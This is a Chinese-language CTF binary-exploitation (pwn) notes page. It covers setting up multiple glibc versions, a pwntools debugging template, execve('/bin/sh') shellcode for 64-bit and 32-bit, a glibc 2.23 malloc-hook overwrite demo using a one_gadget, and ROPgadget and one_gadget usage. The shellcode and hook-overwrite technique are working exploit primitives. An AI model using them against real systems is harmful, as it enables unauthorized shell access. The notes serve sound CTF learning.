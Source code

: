 # 基础环境

pwn环境搭建主要有下面几个问题：
1. 有些题目需要旧版本的glibc依赖
2. gcc和glibc绑定，新版的gcc不能链接到旧版本的glibc，否则报错。因此新版本gcc编译出的程序可能在较久的系统上无法运行。
3. 不同的glibc导致没有符号，需要设置gdb，因此需要一个模板

## glibc不同版本共存
使用Ubuntu作为基础版本，将libc目录和题目放在一起，就可以使用下面的模板设置gdb带符号带源码调试。


## 模板
使用此模板前要手动执行patchelf，没有写入到模板里因为patchelf有bug，会写坏文件。

```python
from pwn import *
context.log_level='debug'
context.terminal=['bash']
debug=1
gdb_script='''
attach {pid}
source loadsym.py
loadsym {libc_symbol_path}
dir {libc_source_path}
dir {libc_source_path}/libio
'''

# write gdb script,use source /tmp/{elf_name}_gdb to load.
def add_gdb_script(elf_name:str,script:str):
    with open("/tmp/{}_gdb".format(elf_name),'w') as f:
        f.write(script)

def ld_libc_source_path(arch:str,version:str):
    libc_source_path="libc/usr/src/glibc/glibc-{}/".format(version)
    if arch=="amd64":
        ld_path="./libc/lib/x86_64-linux-gnu/ld-{}.so".format(version)
        libc_path='./libc/lib/x86_64-linux-gnu/libc-{}.so'.format(version)
    elif arch=="i386":
        ld_path="./libc/lib/i386-linux-gnu/ld-{}.so".format(version)
        libc_path='./libc/lib/i386-linux-gnu/libc-{}.so'.format(version)
    libc_symbol_path=libc_path.replace("/lib/","/usr/lib/debug/lib/")
    return (ld_path,libc_path,libc_symbol_path,libc_source_path)

# load elf， change this
elf_name='elf_name_change_me'
elf=ELF(elf_name)
context.arch=elf.arch
# libc_start_main_got=elf.got['__libc_start_main']
elf_start=elf.entry


# load libc. default use system libc 
libc_path='/lib/x86_64-linux-gnu/libc.so.6'
ld_path='/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2'
libc_version="2.23"
# 注释这行使用系统glibc
ld_path,libc_path,libc_symbol_path,libc_source_path=ld_libc_source_path(context.arch,libc_version)
libc=ELF(libc_path)
libc_base=0

# patch elf
# os.system("patchelf --set-interpreter {} {}".format(ld_path,elf_name))
# os.system("patchelf --replace-needed libc.so.6 {} {}".format(libc_path,elf_name))
elf=ELF(elf_name)
remote_addr=['127.0.0.1',4000]
def libc_start_main_addr()->int:
    return libc_base+libc.symbols['__libc_start_main']
def system_addr()->int:
    return libc_base+libc.symbols["system"]
def sh_addr()->int:
    return libc_base+libc.search(b"/bin/sh").__next__()
if debug:
    p=process(elf_name)
else:
    p=remote(remote_addr[0],remote_addr[1])
    
# 注意remote的时候p是没有pid的，随便改个数字
add_gdb_script(elf_name,gdb_script.format(pid=p.pid,libc_symbol_path=libc_symbol_path,libc_source_path=libc_source_path))

pause()
p.interactive()
```

# Rop
## shellcode
64bit 22bytes: `"\x31\xF6\x56\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xF7\xEE\xB0\x3B\x0F\x05"`
```asm
xor esi, esi
push rsi
mov rbx, 0x68732f2f6e69622f
push rbx
push rsp
pop rdi
imul esi
mov al, 0x3b
syscall
```
32bit 18bytes:````
"\x6a\x0b\x58\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";
```asm
; nasm -felf32 shellcode.asm && ld -melf_i386 shellcode.o -o shellcode
section .text
global _start
_start:
push 0x0b
pop eax
push 0x0068732f
push 0x6e69622f
mov ebx, esp
int 0x80
```
使用[[#one_gadget]] 来直接getshell，不需要手动构造system或者execve系统调用。
```c
//glibc2.23
#include<stddef.h>
#include<stdio.h>
#include<stdlib.h>
size_t get_libc_base_addr(){
    size_t addr=(size_t)&printf;
    addr-=0x55810;
    return addr;
}
int main(){
    //start attack
    size_t libc_base_addr=get_libc_base_addr();
    size_t one_gadget=0xf1247;
    printf("libc_base_addr:%p\n",(void*)libc_base_addr);
    // --0x4efe8
    *(size_t *)(libc_base_addr+0x3c4b10)=one_gadget+libc_base_addr;
    malloc(10);

}

```
# Heap
[[ptmalloc]]
# 工具
## ROPgadget

### 安装
有Python和ruby版本的。clone下来后执行`sudo -H python3 -m pip install ROPgadget` 
https://github.com/JonathanSalwan/ROPgadget
### 使用
1.  ROPgadget 得到代码片断
2.  cd80c3 就是 int0x80;ret,使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
3.  动态链接往往没有 int 0x80,需要构造 rop
4.  `ROPgadget --binary {binary_name} --ropchain`可以直接生成 ROP chain，不过要转换一下:
```python
rop = []
# i = 1
for line in open("ropc"):
    # print line,
    if "pack" in line and '+=' in line:
        print line
        # print i
        # print str(line).split(", ")[1].split(")")[0]
        rop.append(str(line).split(", ")[1].split(")")[0])
    if 'pack' not in line and '+=' in line:
        # print i
        # print line
        rop.append(str(line).split("+= ")[1][1:-2])
    # i += 1
i=0
while(i<len(rop)):
    if rop[i]=='/bin':
        rop[i]='0x6e69622f'
    if rop[i]=='//sh':
        rop[i]='0x68732f2f'
    i+=1
print(rop)
```
## one_gadget
常用于rop，如果使用rop技术可以return到one_gatget且满足寄存器要求，则可以直接getshell，这个工具可以搜索glibc中的one_gadget

https://github.com/david942j/one_gadget
直接从 glibc 里 getshell 的函数。 使用-l 1参数可以获得更多gadget ，多尝试一般是可以getshell的。
## LibcDb
根据函数偏移来查找libc版本。不过大部分都是Ubuntu下的libc
libc databases:http://libcdb.com

https://libc.rip/
